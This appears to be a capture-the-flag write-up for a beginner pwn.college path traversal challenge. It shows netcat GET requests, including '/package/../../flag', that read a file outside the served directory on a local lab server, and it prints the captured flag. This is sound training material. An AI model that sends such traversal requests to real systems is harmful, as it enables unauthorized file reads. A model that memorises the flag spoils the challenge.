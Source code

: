 # 🕵️‍♂️ Challenge: Path Traversal 1

**Category**: Web Security  
**Platform**: pwn.college  
**Level**: Beginner  
**Vulnerability**: Path Traversal  
**Goal**: Read the `flag` file by bypassing path restrictions.

---

## 🧩 Description

We are given a web challenge running locally on port 80. The `/package` endpoint is accessible. Our goal is to read the `flag` file, presumably located outside the `/package` directory.

---

## 🔎 Recon

Let’s start by sending a simple GET request to `/package` to understand the structure.

```bash
printf "GET /package HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```

**Response:**
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Sun, 20 Jul 2025 03:49:50 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 25
Connection: close

Welcome to Web Security!
```

The server responds positively, meaning it's up and running. No sensitive data yet.

---

## 🚪 Exploiting Path Traversal

We suspect a **path traversal** vulnerability, so we try escaping the `/package` directory by adding `../` sequences to access files outside.

Try accessing `../../flag`:

```bash
printf "GET /package/../../flag HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```

**Response:**
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Sun, 20 Jul 2025 03:50:14 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 60
Connection: close

pwn.college{UosMRPRfp9lbdsK84mhqTH7DQEO.QX3gzMzwSM0IzMyEzW}
```

🎉 We successfully accessed the `flag` file via path traversal.

---

## 🏁 Flag

```
pwn.college{UosMRPRfp9lbdsK84mhqTH7DQEO.QX3gzMzwSM0IzMyEzW}
```

---

